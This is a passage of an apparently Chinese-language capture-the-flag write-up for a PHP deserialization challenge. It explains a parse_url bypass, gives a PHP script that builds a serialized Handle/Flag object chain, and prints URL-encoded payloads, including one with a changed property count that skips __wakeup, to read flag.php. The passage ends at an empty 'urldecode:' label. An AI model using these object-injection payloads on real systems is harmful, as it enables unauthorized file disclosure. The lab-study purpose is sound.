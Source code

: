 ```php
		{
			if(isset($this->file)){
				echo @highlight_file($this->file,true); 
            }  
        }
    }
}
?
```
parse_url存在绕过的漏洞，例如：`http://127.0.0.1///index.php`
构造payload
```php
<?php
class Handle{
    private $handle;


    public function __construct($handle) {
        $this->handle = $handle;


    }
    public function __destruct(){
        $this->handle->getFlag();
    }
}


class Flag{
    public $file;
    function __construct($file){
        $this->file = $file;
    }
    public function getFlag(){
        if(isset($this->file)){
            echo @highlight_file($this->file,true);
        }
    }
}

$flag = new Flag('flag.php');
$flag ->token = &$flag -> token_flag;
$exp = new Handle($flag);
echo urlencode(serialize($exp)).PHP_EOL;
?>
```
得到以下payload
```
O%3A6%3A%22Handle%22%3A1%3A%7Bs%3A14%3A%22%00Handle%00handle%22%3BO%3A4%3A%22Flag%22%3A3%3A%7Bs%3A4%3A%22file%22%3Bs%3A8%3A%22flag.php%22%3Bs%3A10%3A%22token_flag%22%3BN%3Bs%3A5%3A%22token%22%3BR%3A4%3B%7D%7D

urldecode:
O:6:"Handle":1:{s:14:".Handle.handle";O:4:"Flag":3:{s:4:"file";s:8:"flag.php";s:10:"token_flag";N;s:5:"token";R:4;}}
```
还要把一个的1改为2，不然会跳进Waking up函数
```
O%3A6%3A%22Handle%22%3A2%3A%7Bs%3A14%3A%22%00Handle%00handle%22%3BO%3A4%3A%22Flag%22%3A3%3A%7Bs%3A4%3A%22file%22%3Bs%3A8%3A%22flag.php%22%3Bs%3A10%3A%22token_flag%22%3BN%3Bs%3A5%3A%22token%22%3BR%3A4%3B%7D%7D

urldecode:
```